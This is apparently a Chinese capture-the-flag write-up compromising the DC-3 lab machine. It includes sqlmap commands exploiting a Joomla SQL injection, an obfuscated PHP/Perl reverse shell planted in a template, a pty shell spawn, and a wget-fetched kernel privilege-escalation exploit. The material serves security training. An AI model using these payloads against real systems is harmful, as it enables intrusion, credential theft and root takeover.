

[DC-3靶场下载](http://www.five86.com/downloads/DC-3-2.zip)

---

```shell
DC-3MAC地址：00:0C:29:6B:E5:16
```

将kali跟DC-3放同一网段

#### 信息收集

**主机扫描**

[arp-scan命令教程](https://blog.csdn.net/liver100day/article/details/117560828)

```shell
arp-scan -l
```


---

可以用`netdiscover`     它是一个主动/被动的ARP 侦查工具。使用Netdiscover工具可以在网络上扫描IP地址,检查在线主机或搜索为它们发送的ARP请求。

```shell
netdiscover -r 192.168.80.0/24
```


**端口扫描**

```shell
nmap -A -T4 -p-  192.168.80.134

-A #全面扫描
-T #扫描速度
-p- #全端口扫描
```


发现80端口可用，用的是`Joomla`的`cms`

浏览器访问DC-3的 80端口，用`Wappalyzer`插件，也可以看出是`Joomla`的


**目录爆破**


```shell
dirsearch -u 192.168.80.134 -i 200

 -u URL                      #  URL目标
 -i                          #状态码
```


也可以用御剑后台扫描工具


也可以用nikto扫描 [Nikto](https://blog.csdn.net/m0_54471074/article/details/128623767)

```shell
nikto -h 192.168.80.134
```



---

进入后台管理页面


#### 漏洞查找

 **joomscan**

joomscan是一款开源的且针对joomla的扫描器，kali可以用命令`apt install joomscan`安装该工具。

```shell
joomscan -u 192.168.80.134
```


扫描出了cms的版本，还有一些目录跟后台登入界面，这在信息收集部分已经发现

---

**searchsploit**

searchsploit是一款kali自带的搜索漏洞信息的模块，可参考[searchsploit漏洞查找工具使用指南](https://blog.csdn.net/whatday/article/details/102806149)

> searchsploit是一个基于Exploit-DB的命令行搜索工具，可以帮助我们查找渗透模块。
>
> Exploit-DB是一个漏洞库，Kali Linux中保存了一个该漏洞库的拷贝，可以查找需要的渗透模块，它将搜索所有的漏洞和shellcode而且该漏洞库是保存在本地的，在没有网络的情况下也可以使用。

```shell
# 搜索 joomla 3.7.0版本的漏洞
searchsploit joomla 3.7.0
```


发现有SQL注入漏洞和跨站脚本漏洞

---

使用find命令找出`42033.txt`的位置

```shell
find / -name '42033.txt'
```


查看文件内容

```shell
cat /usr/share/exploitdb/exploits/php/webapps/42033.txt
```


给出了注入方法

#### 漏洞利用

##### **SQL注入**

- 列出所有数据库

> 过程有点久，耐心等待。。。

```shell
sqlmap -u "http://192.168.80.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]  


-dbs #检测站点有哪些数据库

--level    #sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP Cookie头的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。最高为5

--risk   #执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全
```


- 列出指定数据库的所有表

```shell
sqlmap -u "http://192.168.80.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb --tables 


-D  #指定数据库，当数据库名含有特殊符号的时候，需要用引号包括起来

--tables #列出表
```


- 列出指定库指定表的字段名

```shell
sqlmap -u "http://192.168.80.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T "#__users" --columns

```


- 获取用户名和密码

```shell
sqlmap -u "http://192.168.80.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T "#__users" -C username,password --dump
```


发现用户的密码做了加密

##### **John工具密码爆破**

john  是一款大受欢迎的、免费的开源软件、基于字典的密码破解工具。

利用John工具，对该密码进行爆破拆解，工具详细信息参考[John介绍及常用命令使用说明](https://blog.csdn.net/blue_starry_sky/article/details/61206488)

先在桌面创建一个文件，将得到的用户密码的hash值复制进去并保存，使用john破解。


得到密码后，登录后台界面

##### 反弹shell

登陆后，就要开始寻找有没有可以getshell的地方，这类的cms肯定是有上传文件的地方，这里可以上传一个一句话木马，用蚁剑进行连接，也可以写一个php，反弹shell到我们的攻击机上，这边，经过寻找发现了有个templates的beez3的目录


创建一个文件


写入php反弹shell


```php
<?php
function which($pr) {
	$path = execute("which $pr");
	return ($path ? $path : $pr);
	}
function execute($cfe) {
	$res = '';
	if ($cfe) {
		if(function_exists('exec')) {
			@exec($cfe,$res);
			$res = join("\n",$res);
			} 
			elseif(function_exists('shell_exec')) {
			$res = @shell_exec($cfe);
			} elseif(function_exists('system')) {
@ob_start();
@system($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(function_exists('passthru')) {
@ob_start();
@passthru($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(@is_resource($f = @popen($cfe,"r"))) {
$res = '';
while(!@feof($f)) {
$res .= @fread($f,1024);
}
@pclose($f);
}
}
return $res;
}
function cf($fname,$text){
if($fp=@fopen($fname,'w')) {
@fputs($fp,@base64_decode($text));
@fclose($fp);
}
}
$yourip = "your IP";
$yourport = 'your port';
$usedb = array('perl'=>'perl','c'=>'c');
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj".
"aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR".
"hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT".
"sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI".
"kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi".
"KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl".
"OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw==";
cf('/tmp/.bc',$back_connect);
$res = execute(which('perl')." /tmp/.bc $yourip $yourport &");
?> 
```


保存就上传好啦，再根据joomla的特性，模块会单独放在一个文件夹里/templates/，而beez3模块就在/templates/beez3/里面，刚才创建的shell路径为

```shell
http://192.168.80.134/templates/beez3/shell.php
```

用kali来监听

```shell
nc -lvvp 4444
```


浏览器访问shell.php的地址`http://192.168.80.134/templates/beez3/shell.php`


反弹成功！！！


##### Get交互shell

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


 交互shell获取成功，但是还不是root权限

#### 提权

查看操作系统版本信息

```shell
tac /etc/issue
```


```shell
cat /proc/version
```


继续使用searchsploit工具搜索漏洞 ，打开另一个终端

```shell
searchsploit Ubuntu 16.04
```


Privilege Escalation（提权），这里我们使用通用4.4.x版本的提权方式

使用find命令查找路径

```shell
find / -name '39772.txt'

# 全部路径
/usr/share/exploitdb/exploits/linux/local/39772.txt
```


可以直接用`searchsploit -p linux/local/39772.txt`会直接显示出绝对路径


```shell
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```


> 溢出提权（exp提权）

**利用exp提权**

[https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip)

下载39772.zip，粘贴复制到kali里（不能拖到kali里面，否则会出现丢包的现象）


在桌面开启http服务，将下载好的文件导入到DC-3靶机里

```shell
python3 -m http.server 8888
```


浏览器进行访问`http://192.168.80.141:8888/`


出现这个说明服务开启成功，exp地址是

`http://192.168.80.141:8888/39772/exploit.tar`


回到刚才的``python交互shell`

```shell
wget http://192.168.80.141:8888/39772/exploit.tar
```


下载完后用tar命令解压该压缩包

```shell
tar -xvf exploit.tar
```


```shell
cd ebpf_mapfd_doubleput_exploit
```


执行

```shell
./compile.sh
./doubleput
```


使用`whoami`查看当前用户


切换到`root`的家目录


查看`the-flag.txt`


